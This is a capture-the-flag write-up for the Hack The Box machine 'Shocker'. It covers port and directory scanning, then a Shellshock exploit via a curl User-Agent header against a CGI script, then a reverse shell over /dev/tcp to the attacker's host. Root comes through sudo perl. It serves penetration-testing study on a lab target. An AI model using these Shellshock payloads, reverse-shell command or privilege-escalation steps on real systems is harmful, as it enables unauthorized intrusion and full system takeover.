 # HTB - Shocker
## OS - Linux

As usual, I started with an nmap scan of Shocker (IP address 10.10.10.56).

```
$nmap -sC -sV -oN Shocker.nmap 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 18:05 PST
Nmap scan report for 10.10.10.56
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.27 seconds
```
Ports 80 and 2222 (SSH) are open. 

The index page on port 80 shows an image that says "Don't bug me". Not a lot of info to go on. So I ran nmap with safe scripts option and dirb tool.



dirb output:
```
$dirb http://10.10.10.56

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jan  1 18:08:21 2021
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                              
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)                            
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)       
```


nmap NSE output:
```
$nmap --script=safe 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 18:07 PST
Pre-scan script results:
|_broadcast-wpad-discover: Failed to retrieve wpad.dat (http://wpad.net/wpad.dat) from server
| targets-asn: 
|_  targets-asn.asn is a mandatory parameter
Nmap scan report for 10.10.10.56
Host is up (0.095s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
|_http-comments-displayer: Couldn't find any comments.
|_http-date: Sat, 02 Jan 2021 02:12:29 GMT; +3m47s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers: 
|   Date: Sat, 02 Jan 2021 02:12:29 GMT
|   Server: Apache/2.4.18 (Ubuntu)
|   Last-Modified: Fri, 22 Sep 2017 20:01:19 GMT
|   ETag: "89-559ccac257884"
|   Accept-Ranges: bytes
|   Content-Length: 137
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-title: Site doesn't have a title (text/html).
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
2222/tcp open  EtherNetIP-1
|_banner: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2

Host script results:
|_clock-skew: 3m46s
|_fcrdns: FAIL (No PTR record)
| unusual-port: 
|_  WARNING: this script depends on Nmap's service/version detection (-sV)

Post-scan script results:
| reverse-index: 
|   80/tcp: 10.10.10.56
|_  2222/tcp: 10.10.10.56
Nmap done: 1 IP address (1 host up) scanned in 356.53 seconds
```

dirb did not find anything interesting, so I ran dirbuster looking for .php, .sh, .pl. files and found this result:
```
Dir found: /cgi-bin/ - 403
File found: /cgi-bin/user.sh - 200
```

The user.sh was a small shell script that had the following contents:

```
$cat user.sh
Content-Type: text/plain

Just an uptime test script

 22:10:31 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00

```
This also gives me nothing. Searching online, esp. (https://pentesterlab.com/exercises/cve-2014-6271/course), and the fact that the box was named Shocker, makes me think Shellshock. 

So I tried the curl exploit from https://www.sevenlayers.com/index.php/125-exploiting-shellshock
```
$curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh

uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
And it worked. We see that the box is vulnerable to Shellshock and gives us the id of the running process - shelly.

Now we try for a reverse shell. 

Running nc listener on port 4444 on the attacker box, I typed the following to get a reverse shell:

```
$curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.16/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh\
```

On the nc listener, I see:

```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.56] 46850
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ ls  
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$ cd /home/shelly
cd /home/shelly
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```

Now I got the user flag. To get root, I ran sudo -l.

I see

```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

I see shelly can run perl commands as root. I remember it is possible to get bash shell through exec or system commands in perl. Took a few tries but finally this worked:

```
sudo perl -e 'exec "/bin/bash"'
```

There is no shell prompt to show that it worked, but when I typed id, I see I was root.

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
sudo perl -e 'exec "/bin/bash"'

id
uid=0(root) gid=0(root) groups=0(root)
ls
user.txt
cd /root
ls
root.txt
cat root.txt

```

